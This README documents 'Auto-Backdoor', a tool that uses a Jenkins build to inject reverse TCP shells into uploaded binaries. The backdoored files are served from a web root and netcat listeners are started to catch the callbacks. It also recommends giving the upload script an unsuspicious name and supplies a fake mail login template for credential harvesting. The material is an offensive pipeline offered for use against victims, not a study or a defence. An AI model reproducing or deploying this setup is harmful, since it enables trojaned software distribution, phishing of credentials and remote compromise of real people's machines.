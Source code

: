 # Auto-Backdoor
Need a jenkins server running, on it make a build, this build needs to be paramatized with the following text pramaters

`dir` 
`Payload_Type`
`port`
`IP`
`binName`

Usage: `python abd.py $BINARY $PLACE TO UPLOAD / DOWNLOAD $PUT SCRIPT LOCATION $JENKINS URL $Jenkins token $Jenkins project location $0 for linux $not used yet, always 0 $Backdoor callback port $backdoor callback ip / domain name`

Jenkins configuration:
	Standord jenkins build, easiest to change jenkins user to be same as www root if on save server (on ubuntu it is www-data, edit	###NEED TO FIND CONFIG LOCATION###)
	Need to edit the following in jenkins:
		1: Make it a pramatrised build with the following
			1: dir
			2: Payload_Type
			3: port		(Note: For shell call back)
			4: IP		(Note: For shell call back)	
			5: binName
		2: Check allow simotaius builds
		3: Set allow remote triggred with a token
		4: Build shell with following:
```rp=$(expr 1024 + $BUILD_NUMBER) #make it a port that is non-reserved and non-taken, should exclude 8080 and a few others
echo $rp
cp /in/$dir .
backdoor -f $dir -P $rp -H $IP -s reverse_shell_tcp
cp backdoored/$dir /var/www/html/out/$dir
echo "\nPutting $rp session //need ip address from victom here" >> /var/www/html/list_screens_go_to_what
## NEED SCREEN AND netcat-openbsd packages (sudo apt-get install netcat-openbsd) as default nc does not have the -k flag
screen -S L_$rp -d -m \'nc -lnvkp $rp\'
#screen -ls #debugging
```

PHP Configuration:
	I use apache2 with PHP5
	`sudo apt-get install apache2 libapache2-mod-php5 php5-cgi`
	move the put.php into /var/www/html/ and change the name to something that would not be susspisus
	if you want there is a basic template for making it look like a mail login, with cred harvesting, move everything in mail/ to /var/www/html
		edit `/etc/apache2/sites-enabled/000-default.conf` and add `DirectoryIndex index.php` to index.php
	
To get shell back:
	nc -lnvp $Backdoor Port #wait for shell

For help email ABD@rahartshorn.com

--
Robert Hartshorn
